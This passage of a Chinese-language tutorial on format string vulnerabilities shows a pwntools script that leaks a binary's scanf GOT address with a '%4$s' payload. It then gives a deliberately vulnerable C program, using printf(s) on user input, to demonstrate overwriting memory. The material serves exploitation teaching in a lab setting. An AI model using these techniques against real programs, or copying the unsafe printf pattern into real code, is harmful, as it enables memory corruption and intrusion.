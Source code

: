 ![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72f7ovBYoZPPHo87icgmBKHY9WF3ahdSLTgIt4Vptywju2hBCBicOqW6yg/640?wx_fmt=png&from=appmsg "")  
  
这里得到scanf@got的地址为0x804c014  
  
利用pwntools构造payload  
```
from pwn import *
sh = process('./format1')
leakmemory = ELF('./format1')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print(hex(__isoc99_scanf_got))
payload = p32(__isoc99_scanf_got) + b'%4$s'
print(payload)
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil(b'%4$s\n')
print(hex(u32(sh.recv()[4:8])))

```  
>   
> Tips：这里应该会有师傅会问，为什么不能直接用命令行输入相应的地址，这是因为scanf函数并不会将其识别为对应的字符串，而是会将\,x,0,c分别作为一个字符进行读入，所以这里是通过脚本将地址输入，而并不是通过直接输入字符的方法。  
  
  
这里有一个地方需要解释一下，我们使用gdb.attach(sh)来进行调试，当运行到第二个printf函数时，可以看到第四个参数，指向我们的scanf的地址，这里输出  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72dOPwliakqR3UlhYSic0RyK1er6w0Td4sBzSkFwpXczs2njETgueibaR0A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72SVLBo8BFGoEeYIQOicstOaQD1KVibeHOMVrICWsfQeJ2MIraMMD0cwIA/640?wx_fmt=png&from=appmsg "")  
  
但是并不是所有的偏移机器字长的整数倍，可以让我们直接相应参数来获取，有时候，需要对输入的格式化字符串进行填充，使我们想要打印的地址内容的地址位于机器字长整数倍的地址处，类似于这种情况  
```
填充字符+地址

```  
## 覆盖内存  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72B2wteEGyefZiakcsyGPBsq1nZiaqnPbiadmiaWbvzAr8QuX4WEibfZKJlLQ/640?wx_fmt=png&from=appmsg "")  
  
前面我们提到了通过格式化字符串漏洞来泄露栈内存以及任意地址内存，单纯泄露栈内存好像不太能满足我们，那就让我们来覆盖内存吧！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RVk9wp1dweolbZHwBlpQib72eJ5FLSlQH2jicHMBSziamrabPOJzyRHZkZmoIGC8ZIAzgDbalEkfHkvQ/640?wx_fmt=png&from=appmsg "")  
  
我们使用如下程序来完成我们的讲解  
```
#include <stdio.h>
int a = 123, b= 456;
int main(){
    int c = 789;
    char s[100];
    printf("%p\n", &c);
    scanf("%s", s);
    printf(s);
    if(c == 16){
        puts("modified c.");
    } else if (a == 2){
        puts("modified a for a small number.");
    } else if (b == 0x12345678){
        puts("modified b for a big number!");
    }
    return 0;
}

```  
  
